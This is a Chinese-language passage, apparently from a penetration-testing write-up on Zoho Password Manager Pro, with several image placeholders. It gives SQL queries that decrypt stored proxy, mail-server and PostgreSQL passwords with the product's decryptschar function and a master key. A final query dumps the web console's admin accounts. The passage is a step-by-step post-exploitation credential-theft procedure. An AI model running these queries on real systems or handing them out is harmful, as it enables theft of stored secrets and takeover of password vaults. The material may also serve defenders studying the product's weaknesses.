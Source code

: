 
## 解密代理配置

当配置了代理服务器时,同样用类似的方法进行查询和解密

![Untitled](../../img/zoho-case/Untitled%2023.png)

```sql
select proxy_id,direct_connection,proxy_server,proxy_port,username,decryptschar(ptrx_proxysettings.PASSWORD,'***master_key***') from ptrx_proxysettings
```

![Untitled](../../img/zoho-case/Untitled%2024.png)

![Untitled](../../img/zoho-case/Untitled%2025.png)

---

## 解密邮件服务器配置

pmp这个默认都是配置了邮件服务器的

```sql
select mailid,mailserver,mailport,sendermail,username,decryptschar(ptrx_mailsettings.PASSWORD,'***master_key***'),tls,ssl,tlsifavail,never from ptrx_mailsettings
```

![Untitled](../../img/zoho-case/Untitled%2026.png)

---

## pg数据库postgres用户密码

```sql
select username,decryptschar(dbcredentialsaudit.PASSWORD,'***master_key***'),last_modified_time from dbcredentialsaudit
```

![Untitled](../../img/zoho-case/Untitled%2027.png)

![Untitled](../../img/zoho-case/Untitled%2028.png)

---

## 进入 pmp web后台

在数据库中查询web后台的账号密码

```sql
select * from aaauser;
```

![Untitled](../../img/zoho-case/Untitled%2029.png)
